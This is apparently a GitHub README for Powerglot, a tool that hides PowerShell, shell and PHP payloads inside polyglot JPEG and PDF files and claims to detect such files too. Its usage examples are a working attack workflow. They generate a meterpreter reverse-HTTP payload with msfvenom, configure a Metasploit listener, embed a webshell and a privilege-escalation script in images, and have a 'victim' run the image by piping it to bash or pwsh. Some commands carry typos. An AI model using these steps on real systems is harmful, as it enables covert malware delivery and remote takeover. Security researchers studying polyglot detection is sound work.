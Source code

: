 # Powerglot

Powerglot encodes several kind of scripts using polyglots, for example, offensive powershell scripts. It is not needed a loader to run the payload.

In red-team exercises or offensive tasks, masking of payloads is usually done by using steganography, especially to avoid network level protections, being one of the most common payloads scripts developed in powershell. Recent malware and APTs make use of some of these capabilities: APT32, APT37, Ursnif, Powload, LightNeuron/Turla, Platinum APT, Waterbug/Turla, Lokibot, The dukes (operation Ghost), Titanium, etc.

Powerglot is a multifunctional and multi-platform attack and defense tool based on polyglots. Powerglot allows to mask a script (powershell, shellscripting, php, ...) mainly in a digital image, although other file formats are in progress. Unlike the usual offensive tools or malware, Powerglot does not need any loader to execute the "information hidden", minimizing the noise on the target system.

PowerGlot has a clear utility in offensive tasks but it is also defined as a discovery and blue team tool. To our knowledge, it is the first general and complete open-source tool that allows to search for the presence of masked information with polyglots, information that could be useful to achieve persistence in a system or to hide malware (stego-malware, privilege escalation, lateral movement, reverse shell, etc.)

Features:
- Encode powershell/shell script/php/.. in a polyglot image. It is not necessay a loader to recover/execute the hidden information (payload). PowerGlot works with several formats. Mainly, JPEG format.

- Powerglot is a complete open-source tool to detect (malicious) polyglots, specially the result of some public tools as Truepolyglot or stegoSploit. We works in several formats: JPEG, PNG, GIF, BMP, ZIP, PDF, MP3, etc.

# Installation
```
# git clone https://github.com/mindcrypt/powerglot
# python3 powerglot
```
# Usage & Parameters

The following lines show some examples of usage from Powerglot
```
# Example 1 - Hiding a powershell/php/shell script in a JPEG image

# python3 powerglot.py -o meterpreter.ps1 cat.jpg cat-hidden1.jpg
# python3 powerglot.py -o webshell.php cat.jpg cat-hidden2.jpg
# python3 powerglot.py -o shell.sh cat.jpg cat-hidden3.jpg
```
```
# Example 2 - Hiding a shell script (linenum.sh) for privilege escalation "hidden" in a JPEG image

# python3 powerglot.py -o linenum.sh cat.jpg cat-linenum.jpg
# file cat-linenum.jpg (It is a valid JPEG file)
# feh cat-lineum.jpg (The image is properly showed in an image viewer)

# We can execute the script in several ways:

a) cat cat-linenum | bash
b) chmod +x cat-linenum.jpeg; ./cat-linenum.jpeg

```
```
# Example 3 - Encoding a powershell script in a JPEG image. For example, a meterpreter

# SERVER
# Prepare the payload and configure the server to receive a meterpreter connection

# msfvenom --payload windows/x64/meterpreter_reverse_http --format psh --out meterpreter.ps1 LHOST=<IP> LPORT=<PORT>
# python3 powerglot.py -o meterpreter.ps1 cat.jpg cat-o.jpg
# Check correct JPEG format
  #file cat-o.jpg
  # feh cat-o.jpg

msf > use exploit/multi/handler msf exploit(multi/handler) > set payload windows/meterpreter_reverse_http payload => windows/meterpreter_reverse_http msf exploit(multi/handler) > set lhost <IP> lhost => <IP> msf exploit(multi/handler) > set lport <PORT> lport => <PORT> msf exploit(multi/handler) > exploit

# LINUX VICTIM
# Download cat-o.jpg
# Execute 
# pwsh cat-o.jpg or cat cat-o.jpg | pwsd
```

```
# Polyglot in PDF
#base64 payload.sh (example linenum.sh)
#Create script.sh
echo "fasdfafdafdf=" | base64 .d | bash

#python3 powerglot -o script.sh file.pdf file-1.pdf
```



# Future work. Doing
- We are working to support different file formats for encoding information in polyglots. Currently, we support several techniques in JPEG and PDF.
- We are working to incorporate rules for the detection of polyglots in different formats. Currently, the presence of StegoSploit in JPEG files is detected.

# Author & license

This project has been developed by Dr. Alfonso Muñoz and Abraham Pasamar. The code is released under the GNU General Public License v3.



